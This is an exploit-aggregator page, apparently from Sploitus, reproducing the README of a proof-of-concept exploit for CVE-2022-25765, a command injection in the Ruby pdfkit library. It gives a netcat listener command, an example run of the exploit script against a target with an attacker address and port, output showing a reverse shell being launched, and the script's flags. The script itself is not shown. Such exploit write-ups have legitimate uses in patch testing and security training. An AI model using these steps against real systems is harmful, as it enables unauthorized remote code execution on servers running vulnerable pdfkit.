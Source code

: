 ```yaml
---
title: Exploit for Command Injection in Pdfkit Project Pdfkit exploit
url: https://sploitus.com/exploit?id=38A6D118-ABAB-59DD-9EA2-5FD83636A6BE&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-30
fetch_date: 2025-10-04T05:09:35.792062
---
```


# Exploit for Command Injection in Pdfkit Project Pdfkit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CVE-2022-25765

2023-01-29 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=38A6D118-ABAB-59DD-9EA2-5FD83636A6BE
# PDFkit-CMD-Injection (CVE-2022-25765)
Exploit for **CVE-2022-25765** command injection in pdfkit &lt; 0.8.6

See more details about the vulnerability [here](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

## PoC

Run the netcat on your host:
```
$ nc -lvnp 1337
```

Run the exploit (example):
```
$ ./CVE-2022-25765.py -t http://localhost -a 10.10.14.122 -p 1337
[*] Input target address is http://localhost
[*] Input address for reverse connect is 10.10.14.122
[*] Input port is 1337
[!] Run the shell... Press Ctrl+C after successful connection
```

Flags:
```
-t, --target  Address of target in http-format
-a, --addr    Address for reverse connect
-p, --port    Port for reverse connect, 9001 by default
```
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)